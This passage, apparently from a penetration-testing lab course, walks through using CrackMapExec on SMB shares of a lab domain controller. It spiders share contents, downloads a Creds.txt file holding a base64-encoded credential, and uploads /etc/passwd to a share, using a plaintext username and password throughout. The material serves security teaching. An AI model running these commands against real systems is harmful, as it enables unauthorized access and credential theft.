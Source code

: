 If we want to search file content, we need to enable it with the option `--content`. Let's search for a file containing the word "Encrypt."

### **Searching File Contents**

```shell-session
$ crackmapexec smb 10.129.204.177 -u grace -p Inlanefreight01! --spider IT --content --regex Encrypt

SMB         10.129.204.177  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.204.177  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
SMB         10.129.204.177  445    DC01             [*] Started spidering
SMB         10.129.204.177  445    DC01             [*] Spidering .
SMB         10.129.204.177  445    DC01             //10.129.204.177/IT/Creds.txt [lastm:'2022-12-01 09:01' size:54 offset:54 regex:'b'Encrypt'']
SMB         10.129.204.177  445    DC01             [*] Done spidering (Completed in 3.5477945804595947)
```

We can see an interesting file called `Creds.txt`, which contains very juicy information. Using CrackMapExec, we can get a remote file. We need to specify the share using the option `--share <SHARENAME>`, then use `--get-file` followed by the file's path within the share and set an output file name.

### **Retrieving a File in a Shared Folder**

```shell-session
$ crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! --share IT --get-file Creds.txt Creds.txt

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
SMB         10.129.203.121  445    DC01             [*] Copy Creds.txt to Creds.txt
SMB         10.129.203.121  445    DC01             [+] File Creds.txt was transferred to Creds.txt
```

```shell-session
$ cat Creds.txt 

Creds Encrypted:
ZWxpZXNlcjpTdXBlckNvbXBsZXgwMTIxIzIK
```

In the opposite case, imagine we want to send a file to a remote share. We need to find a share where we have `WRITE` privileges. Then we can use the option `--put-file` as we did with the `--get-file`.

### **Sending a File to a Shared Folder**

```shell-session
$ crackmapexec smb 10.129.203.121 -u grace -p Inlanefreight01! --share IT --put-file /etc/passwd passwd

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
SMB         10.129.203.121  445    DC01             [*] Copy /etc/passwd to passwd
SMB         10.129.203.121  445    DC01             [+] Created file /etc/passwd on \\IT\passwd
```
